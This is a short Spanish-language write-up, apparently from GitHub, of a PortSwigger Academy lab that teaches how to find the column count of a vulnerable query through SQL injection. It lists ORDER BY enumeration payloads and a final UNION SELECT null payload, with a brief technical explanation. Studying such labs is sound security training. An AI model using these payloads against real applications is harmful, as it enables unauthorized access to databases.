

# SQL Injection UNION Attack - Determine Number of Columns

## 📌 Lab Information

- **Lab:** Determine Number of Columns
- **Categoría:** UNION SQL Injection

🔗 [Acceder al laboratorio](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

---

## 🎯 Objetivo

Determinar la cantidad de columnas utilizadas por la consulta SQL vulnerable.

---

## 🔍 Enumeración con ORDER BY

Utilizamos:

```sql
' ORDER BY 1 -- -
' ORDER BY 2 -- -
' ORDER BY 3 -- -
```

Hasta obtener un error.

---

## 🚀 Confirmación de columnas

Payload final:

```sql
' union select null,null,null -- -
```



---

## 🧠 Explicación Técnica

`ORDER BY` permite identificar cuántas columnas existen:

- Si la columna existe → respuesta correcta.
- Si excede el número real → error SQL.

---

## ✅ Resultado

La consulta vulnerable contiene exactamente:

```text
3 columnas
```
